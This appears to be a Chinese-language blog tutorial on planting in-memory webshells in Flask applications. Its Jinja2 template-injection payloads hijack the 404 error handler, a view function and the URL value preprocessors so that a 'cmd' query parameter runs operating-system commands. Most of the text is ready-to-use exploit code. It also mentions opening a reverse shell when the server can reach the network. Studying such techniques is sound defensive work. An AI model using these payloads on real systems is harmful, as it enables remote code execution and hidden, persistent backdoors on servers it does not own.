 ```python
app.view_functions['hello_endpoint']=lambda : __import__('os').popen(request.args.get(request.args.get('cmd'))).read()
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717761732064-34575cd6-e3b3-4c7f-b96d-3c7f835be24a.png#averageHue=%23f8f8b6&clientId=u15af632c-5e6d-4&from=paste&height=322&id=u806a20f4&originHeight=402&originWidth=855&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=38912&status=done&style=none&taskId=u8279b0b0-fed8-4628-9b5a-594ad95c901&title=&width=684)

## 请求拦截路由内存马
### @app.errorhandler
这个装饰器用于注册一个错误处理函数，当特定的 HTTP 错误发生时调用。其最终操作的数据是`error_handler_spec`用法如下
```python
@app.errorhandler(404)
def page_not_found(error):
    return 'This page does not exist', 404
```
当发生请求错误的时候，会调用`flask.sansio.app.App._find_error_handler`的函数遍历`error_handler_spec`找到对应错误的处理函数。可以通过`url_for.__globals__['current_app'].__dict__['error_handler_spec']`查看有没有错误处理函数。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717762399826-7c1b71af-fdc9-4e19-9166-e44623aea28a.png#averageHue=%231e2023&clientId=u15af632c-5e6d-4&from=paste&height=540&id=u07a176be&originHeight=675&originWidth=1185&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=89524&status=done&style=none&taskId=u91941adf-d3e9-4571-b3ee-415885e6035&title=&width=948)

使用下面的 Payload 可以实现针对`404`错误的内存马，当访问一个不存在的路由就会触发。
```python
{{ url_for.__globals__['__builtins__']['exec'](
"
app.backup_errfunc=app.error_handler_spec[None][404][app._get_exc_class_and_code(404)[0]];
app.error_handler_spec[None][app._get_exc_class_and_code(404)[1]][app._get_exc_class_and_code(404)[0]] = lambda c: __import__('os').popen(request.args.get('cmd')).read() if 'cmd' in request.args.keys() else app.backup_errfunc(c)
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']}) }}
```
```python
{{ url_for.__globals__['__builtins__']['exec'](
"
app.error_handler_spec[None][404][app._get_exc_class_and_code(404)[0]] = lambda c: __import__('os').popen(request.args.get('cmd')).read() if 'cmd' in request.args.keys() else c
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']}) }}
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717768797722-dbe2ba39-0b71-452e-8b2d-2aebfb0248d9.png#averageHue=%23f7f6b8&clientId=u15af632c-5e6d-4&from=paste&height=370&id=u753c60d0&originHeight=462&originWidth=1009&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=60126&status=done&style=none&taskId=uf2cee54e-602c-4959-9ebd-5a688e6eae2&title=&width=807.2)
### @app.url_value_preprocessor
这个装饰器用于注册一个函数，该函数会在请求解析URL参数之前调用，可以用于预处理URL参数。其最终操作的数据是`url_value_preprocessors`，在处理请求的时候，函数`flask.app.Flask.preprocess_request`先对遍历了它来直接调用对应的函数，并且这个没有对函数的返回值进行处理，也就是无回显，是对全局生效。
```python
@app.url_value_preprocessor
def url_preprocessor(endpoint, values):
    ...
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717769845043-4a95ac65-c495-47f7-a3ca-c64315854c8b.png#averageHue=%231f2024&clientId=u15af632c-5e6d-4&from=paste&height=580&id=u37afdc72&originHeight=725&originWidth=1164&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=106929&status=done&style=none&taskId=uca1b5444-ba89-4d9e-b6f7-5b407ed6457&title=&width=931.2)
如果我们要实现的内存马的需要考虑回显的问题，如果是在 Debug 模式开启的情况下，直接制造异常，在异常信息中输出，如果是非 Debug 模式看能否出网，出网反弹shell，不出网就添加新的路由以及修改配置。
这种方法是针对的全局路由并且无回显，所以不想影响到其他路由先判断一下。
```python
{{ url_for.__globals__['__builtins__']['eval'](
"
app.url_value_preprocessors[None].append(lambda ep, args : __import__('os').popen(request.args.get('cmd')) if 'cmd' in request.args.keys() else None)
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']}) }}
```
